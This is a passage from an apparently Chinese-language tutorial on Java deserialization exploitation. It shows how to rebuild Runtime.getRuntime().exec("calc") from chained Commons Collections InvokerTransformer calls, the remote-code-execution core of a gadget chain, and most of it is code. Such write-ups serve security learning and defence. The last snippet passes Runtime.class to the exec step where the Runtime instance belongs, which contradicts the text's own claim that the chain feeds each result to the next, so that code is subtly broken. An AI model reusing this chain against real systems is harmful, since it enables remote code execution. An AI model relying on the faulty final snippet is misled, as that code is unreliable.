 String对应String.class   Class<?>对应Class[].class

进一步可简化为：

```java
    Method gMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
```

2. 同理，`Object r = gMethod.invoke(null,null);`可以改写为：

```java
Object r = new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(gMethod);
```

3. `Method execMethod = c.getMethod("exec", String.class);`可改写为：

```java
Method execMethod =(Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"exec",new Class[]{String.class}}).transform(Runtime.class);
```

4. `execMethod.invoke(r,"calc");`可改写为：

```java
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{r,new Object[]{"calc"}}).transform(execMethod);
```

依旧能达到效果

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240708155629476.png)



如果在第三句，使用Runtime类型存储invoke结果，即Runtime.getRuntime()实例，则能在此实例上直接调用exec：（并不是这里就能序列化了，因为还是Runtime存储的，后续转成InvokerTransformer才能序列化）

>没有继承serializable的一些类依然有办法在反序列化过程中获取实例，实际上整个序列化过程都没有用到Runtime的实例，创建实例的过程发生在反序列化途中。但这种方式要求`构造函数`或者`获取实例的方法`能传进需要的参数，因为我们只有InvokerTransformer的过程是反射调用任意方法，而链式的过程中无法再去反射修改实例的字段（要满足链式，上一个transform()结果作为下一个参数）。

```java
        Class<Runtime> c = Runtime.class;
        Method gMethod = c.getMethod("getRuntime",null);//getRuntime无参，即null
        Runtime r = (Runtime) gMethod.invoke(null,null);//执行getRuntime，静态方法无需实例，第一个参数为null；
        r.exec("calc");
```

则该代码修改为InvokeTransformer版只需三句，且为链式（上一个结果传入下一个形参）

```java
//代码2
		Method gMethod =(Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(gMethod);
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(Runtime.class);
```
